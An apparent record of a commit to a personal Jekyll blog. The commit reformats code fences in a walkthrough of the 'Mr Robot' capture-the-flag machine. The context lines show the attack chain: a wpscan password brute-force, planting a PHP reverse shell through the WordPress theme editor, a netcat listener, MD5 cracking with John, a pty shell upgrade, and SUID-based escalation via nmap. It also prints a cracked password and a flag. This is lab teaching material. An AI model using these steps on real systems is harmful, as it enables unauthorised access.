

Before and after one commit to darksec1337/darksec1337.github.io, a Jekyll site: the page built from _posts/2021-04-09-Mr-robots.md, in a window 1280 px wide and 1400 px high, scrolled down 939 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2021-04-09-Mr-robots.md

````diff
--- a/_posts/2021-04-09-Mr-robots.md
+++ b/_posts/2021-04-09-Mr-robots.md
@@ -32,7 +32,8 @@ wpscan --url 0.10.61.197 --wp-content-dir wp-admin --usernames elliot --password
 
 http://10.10.61.197/wp-admin/theme-editor.php?file=archive.php&theme=twentyfifteen&scrollto=3409
 
-```bash
+```
+
 <?php
 See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.
 
@@ -150,7 +151,8 @@ function printit ($string) {
 }
 
 ?>
-bash```
+
+```
 
 nc -nlvp 1234
 
@@ -164,7 +166,7 @@ cat password.raw-md5
 
 john hash.txt --wordlist=~/Downloads/fsocity.dic --format=RAW-MD5
 
-python -c 'import pty; pty.spawn("/bin/bash")'
+```python -c 'import pty; pty.spawn("/bin/bash")'```
 
 su robot
 
@@ -172,7 +174,7 @@ password : abcdefghijklmnopqrstuvwxyz
 
 cat ~/key-2-of-3.txt [ 822c73956184f694993bede3eb39f959 ]
 
-find / -perm /4000 -print 2>/dev/null
+```find / -perm /4000 -print 2>/dev/null```
 
 nmap --interactive
 
````
